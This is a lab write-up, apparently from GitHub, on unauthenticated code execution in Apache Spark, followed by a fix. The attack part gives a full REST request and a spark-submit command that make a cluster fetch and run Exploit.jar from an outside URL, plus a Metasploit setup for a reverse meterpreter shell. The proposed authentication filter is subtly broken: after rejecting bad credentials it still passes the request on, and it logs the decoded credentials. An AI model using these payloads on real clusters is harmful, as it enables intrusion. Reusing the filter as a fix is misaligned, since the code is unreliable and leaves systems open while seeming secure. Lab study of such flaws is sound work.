








# Unauthorized Access Vulnerability in Spark

## Vulnerability Description

Apache Spark is a cluster computing system that supports users submitting applications to the management node, which are then distributed to the cluster for execution. If the management node does not have access control enabled, an attacker can execute arbitrary code in the cluster. The essence of this vulnerability is that an unauthorized user can submit an application to the Master node, which the Master node will distribute to the Slave node for execution. If the application contains malicious code, it will result in arbitrary code execution, threatening the security of the entire Spark cluster.

## Environment Setup

```
git clone https://github.com/vulhub/vulhub.git
cd /opt/vulhub-master/spark/unacc/
docker-compose up 
```

## Vulnerability Detection

After the environment is started, you can access the management page of the master by visiting `http://your-ip:8080`, and you can access the management page of the slave by visiting `http://your-ip:8081`.





The vulnerability is that an unauthorized user can submit an application to the management node, which is actually malicious code.

There are two ways to submit:

### **利用REST API**

payload

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```



Among them, `spark.jars` is the compiled application, mainClass is the class to be run, and appArgs are the arguments passed to the application.

At this point, access `http://your-ip:8081` has loaded exploit.jar



The returned package contains a submissionId (`driver-20220516074753-0000`), then visit `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout` to view the execution result:



### **Using the submissions gateway (integrated in port 7077)**

If port 6066 is not accessible or has been restricted, we can use the master's main port 7077 to submit the application.

The method is to use the Apache Spark script `bin/spark-submit` that comes with Spark:

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

If the master parameter you specify is a REST server, this script will first try to submit the application using the REST API; if it finds that it is not a REST server, it will degrade to using the submission gateway to submit the application.

The way to view the results is the same as before.

### **MSF**

```
msf5>use exploit/linux/http/spark_unauth_rce 
msf5>set payload java/meterpreter/reverse_tcp 
msf5>set rhost 192.168.100.2 
msf5>set rport 6066 
msf5>set lhost 192.168.100.1 
msf5>set lport 4444 
msf5>set srvhost 192.168.100.1 
msf5>set srvport 8080 
msf5>exploit
```

## Solution

### Create an Authenticated Filter Corresponding Jar Package

Compile the source code using Maven in IntelliJ IDEA.

#### Add Maven Dependency

After creating a Maven project, add the following dependency to pom.xml:

```
 <dependencies>

        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.10</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.35</version>
        </dependency>

        <!-- logback 依赖 -->
        <dependency>
            <groupId>ch.qos.logback</groupId>
            <artifactId>logback-classic</artifactId>
            <version>1.2.3</version>
        </dependency>

        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.11</version>
        </dependency>

    </dependencies>
```

Create a package named com.demo.



```
package com.demo;

import org.apache.commons.codec.binary.Base64;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.UnsupportedEncodingException;
import java.util.StringTokenizer;

public class SparkAuthFilter implements Filter {

    /**
     * Logger
     */
    private static final Logger LOG = LoggerFactory.getLogger(SparkAuthFilter.class);

    private String username = "";

    private String password = "";

    private String realm = "Protected";

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        username = filterConfig.getInitParameter("username");
        password = filterConfig.getInitParameter("password");
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain)
            throws IOException, ServletException {

        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse) servletResponse;

        String authHeader = request.getHeader("Authorization");
        if (authHeader != null) {

            StringTokenizer st = new StringTokenizer(authHeader);
            if (st.hasMoreTokens()) {

                String basic = st.nextToken();

                if (basic.equalsIgnoreCase("Basic")) {

                    try {
                        String credentials = new String(Base64.decodeBase64(st.nextToken()), "UTF-8");
                        LOG.debug("Credentials: " + credentials);

                        int p = credentials.indexOf(":");
                        if (p != -1) {
                            String _username = credentials.substring(0, p).trim();
                            String _password = credentials.substring(p + 1).trim();


                            if (!username.equals(_username) || !password.equals(_password)) {
                                unauthorized(response, "Bad credentials");
                            }

                            filterChain.doFilter(servletRequest, servletResponse);
                        } else {
                            unauthorized(response, "Invalid authentication token");
                        }
                    } catch (UnsupportedEncodingException e) {
                        throw new Error("Couldn't retrieve authentication", e);
                    }
                }
            }
        } else {
            unauthorized(response);
        }
    }

    @Override
    public void destroy() {
    }

    private void unauthorized(HttpServletResponse response, String message) throws IOException {
        response.setHeader("WWW-Authenticate", "Basic realm=\"" + realm + "\"");
        response.sendError(401, message);
    }

    private void unauthorized(HttpServletResponse response) throws IOException {
        unauthorized(response, "Unauthorized");
    }

    public static void main(String[] args) {

    }

}
```

> This is a Java class, "SparkAuthFilter", that implements the Filter interface. It provides authentication for Spark services.
>
> The class contains the following fields:
>
> - LOG: A Logger for logging purposes.
> - username: A string to store the username for authentication.
> - password: A string to store the password for authentication.
> - realm: A string to store the realm name, which is set to "Protected".
>
> It overrides the following methods:
>
> - init: initializes the filter by retrieving the username and password from the filter configuration.
> - doFilter: this method performs the authentication by checking the Authorization header in the HTTP request. If it exists, the header is decoded and the username and password are retrieved. The retrieved values are then compared with the pre-defined username and password. If they match, the request is allowed to proceed through the filter chain. Otherwise, an error 401 "Unauthorized" is returned.
> - destroy: does nothing.
>
> It also contains two helper methods:
>
> - unauthorized: sets the WWW-Authenticate header in the response with the realm name and returns error 401 with a custom message.
> - main: does nothing.

Compile the project using Maven, and the compiled jar package can be found in the target directory.



#### Execute Configuration

1. Upload the jar package to the `jars` directory of Spark.
2. In the configuration file `spark-defaults.conf`, add the following configuration:

```
spark.ui.filters=com.demo.SparkAuthFilter
spark.com.demo.SparkAuthFilter.param.username=test
spark.com.demo.SparkAuthFilter.param.password=password
spark.acls.enable=true
```

Restart the Spark cluster.

```
[root@localhost ~]# /opt/spark-2.3.2-bin-hadoop2.6/sbin/stop-all.sh
[root@localhost ~]# /opt/spark-2.3.2-bin-hadoop2.6/sbin/start-all.sh
```



